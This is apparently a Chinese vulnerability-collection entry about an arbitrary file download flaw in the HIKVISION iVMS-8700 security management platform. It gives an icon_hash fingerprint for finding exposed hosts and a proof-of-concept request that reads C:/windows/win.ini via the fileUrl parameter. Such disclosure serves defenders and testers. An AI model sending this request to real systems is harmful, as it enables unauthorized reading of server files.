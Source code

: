 # HIKVISION iVMS-8700综合安防管理平台 download 任意文件下载漏洞

# HIKVISION iVMS-8700综合安防管理平台 download 任意文件下载漏洞

## 漏洞描述

HIKVISION iVMS-8700综合安防管理平台存在任意文件读取漏洞，攻击者通过发送特定的请求包可以读取服务器中的敏感文件获取服务器信息

## 漏洞影响

HIKVISION iVMS-8700综合安防管理平台

## 网络测绘

```
icon_hash="-911494769"
```

## 漏洞复现

登录页面

![image-20230704110859434](/images/image-20230704110859434.png)

验证POC， token 为 Url md5

```
/eps/api/triggerSnapshot/download?token=xxx&fileUrl=file:///C:/windows/win.ini&fileName=1 
```

![image-20230704111021242](/images/image-20230704111021242.png)

